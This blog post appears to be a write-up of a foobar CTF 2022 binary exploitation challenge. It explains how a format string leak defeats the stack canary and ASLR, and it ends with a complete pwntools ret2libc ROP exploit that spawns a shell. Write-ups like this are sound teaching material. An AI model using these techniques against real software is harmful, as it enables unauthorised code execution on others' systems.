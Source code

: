 ```yaml
---
title:  "Pwning binaries and defeating modern mitigations using rop and ret2libc (foobar 2022 pwn writeup)"
layout: post
categories: ctf, binary exploits
---
```



In this article, i’ll explain and teach how to approach these kind of challenges, and how to defeat Stack canaries, ASLR, NX and PIE. Warmup pwn was a nice warm-up binary exploitation challenge from [foobar ctf 2022](https://foobar.nitdgplug.org/), had fun solving it!


![alt text](https://miro.medium.com/max/455/1*JxBCboNipG4Z-kia4xJfpA.png)
## Approaching the challenge
### In this challenge, we got 2 binaries: `chall, libc.so.6`

```sh
chall: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV),
dynamically linked,for GNU/Linux 3.2.0, not stripped

Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
```

### View the decompiled code in Ghidra to get a general overview of the binary

```c
undefined8 main(void)

{
  setvbuf(stdout,(char *)0x0,2,0);
  vuln();
  return 0;
}

void vuln(void)

{
  long in_FS_OFFSET;
  char canary_input [64];
  char buffer [72];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  puts("Can you help find the Canary ?");
  fgets(canary_input,0x40,stdin);
  printf(canary_input);
  fflush(stdout);
  gets(buffer);
  puts(buffer);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

Looks like we have a few vulnerabilities here, starting from **line 20**, containing a **format string vulnerability**, which can lead us into **reading registers and stack addresses, writing to known addresses, and reading strings from the binary**
> You still have to remember both `PIE` and `ASLR` are **enabled**, so we won’t be able to know the addresses of where we want to write to (they are randomized), lets stick with reading addresses for now.

Another vulnerable piece of code is on line 22 — gets function which can lead to buffer overflow, resulting in rewriting stack addresses and redirecting code flow.

```c
printf(canary_input); // Read values from stack and registers
gets(buffer); // overflow buffer and stack
```

**So how do we approach this challenge?** firstly, we need to set the **goal.** Doesn’t seem like the flag is loaded into memory or printed anywhere in the binary, so we would have to get a shell here.

The most straightforward way we have to redirect code execution is by **overwriting RIP**, the instruction pointer, to our **shellcode**, but you have to remember, the `NX bit` is **enabled, we can’t execute the stack.**

> This leads us to the ret2libc approach, we will redirect the code into a function in provided libc (system, preferably) to gain shell on the server.
{: .prompt-tip }

## Building the exploit

Firstly, to overwrite the instruction pointer, we have to defeat the **stack canary**, we can do that by leaking the value of the canary, then overwriting it with the correct value, right before overwriting the instruction pointer.

> You can also defeat canaries with bruteforce, refer to
[**here**](https://bananamafia.dev/post/binary-canary-bruteforce/)
{: .prompt-tip }

How can we leak the canary? well, viewing the code, its simply **stored on the stack**, we can use `printf` to print values from the **stack:**

![alt text](https://miro.medium.com/max/700/1*0GjkfvOsPsRtO9AJlqDGkg.png)

Breakpoint at the **stack canary check**, and compare the leaked stack values to the canary — now in rax.

> use “%z$llx” format to get the z’th param as a long long hex value
{: .prompt-tip }

Found the **canary** at the **23rd param**, nice! now we have to perform a **classic 64bit ret2libc.**

- Find the **offset** to the **canary**, and **rip**, (72 bytes to the canary, 8 more to rip)
- Using the same format string method, find leaks from libc, to get the offset set by ASLR, to get the address of system in the loaded libc.
- Using pwntools you can find the string **“/bin/sh”** in libc, to use in the call to system.
- in 64-bit, functions use **registers** to get their **arguments**, so there is no need to build a **stack frame** for system. so we also have to find a rop-gadget to load **“/bin/sh”** into **RDI Register.**

> Remember that you have to align the stack frame to 16 bits, we can do that by adding another ret gadget.
{: .prompt-danger }


### Collecting Gadgets
```sh
➜  warmup ROPgadget --binary libc.so.6 | grep "pop rdi ; ret"
0x0000000000023b72 : pop rdi ; ret
0x00000000001048ad : pop rdi ; retf
```


## Final exploit

```py
libc = ELF('libc.so.6', checksec=False)

io = start()

io.sendlineafter(b"?", b"%23$llx-%18$llx")
io.recvline()
data = io.recvline().strip().decode("utf-8").split('-')

cookie, stdout = data
cookie, stdout = int(cookie, 16), int(stdout, 16)

libc.address = stdout - libc.symbols['stdout'] + 232

padding = b"A" * 72
system = libc.symbols['system']
bin_sh = next(libc.search(b'/bin/sh'))
pop_rdi_ret = libc.address + 0x0000000000023b72

payload = [
    padding, cookie,
    b"A" * 8, pop_rdi_ret+1,
    pop_rdi_ret ,bin_sh,
    system, libc.symbols['exit'] 
]

io.sendline(flat(payload))

io.interactive()
```